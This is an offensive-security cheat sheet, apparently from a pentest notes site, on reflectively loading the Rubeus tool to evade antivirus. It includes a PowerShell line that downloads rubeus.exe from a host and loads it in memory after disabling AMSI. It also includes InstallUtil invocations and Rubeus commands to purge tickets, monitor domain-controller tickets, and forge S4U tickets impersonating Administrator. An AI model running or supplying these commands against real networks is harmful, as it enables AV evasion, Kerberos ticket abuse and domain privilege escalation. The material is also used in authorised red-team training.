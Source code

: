 # Assembly Reflection

## Assembly Reflection

{% hint style="info" %}
Can be used to evade AV.

Disable AMSI, load the exe as Assembly and invoke the methods.
{% endhint %}

* Load the assembly using Reflection

```csharp
$ass = (new-object net.webclient).DownloadData('http://10.110.0.66/tools/rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($ass)
```

```csharp
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /cmd="monitor" /args="/interval:5 /filteruser:DC$" .\StandRubeus.dll
```

* Invoke a function

```csharp
[Rubeus.Program]::Main("purge".Split())
```

![](../../.gitbook/assets/image%20%2839%29.png)

* Request a TGS \(Constrained Delegation\)

```csharp
[Rubeus.Program]::Main("s4u /user:server01 /rc4:sdsafgsa08ac2d2sad5988cbsda /impersonateuser:Administrator /msdsspn:cifs/server02 /ptt".Split())
```

```text
 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile=  /cmd="hash" /args="/password:polo" .\StandRubeus.dll
```

## 

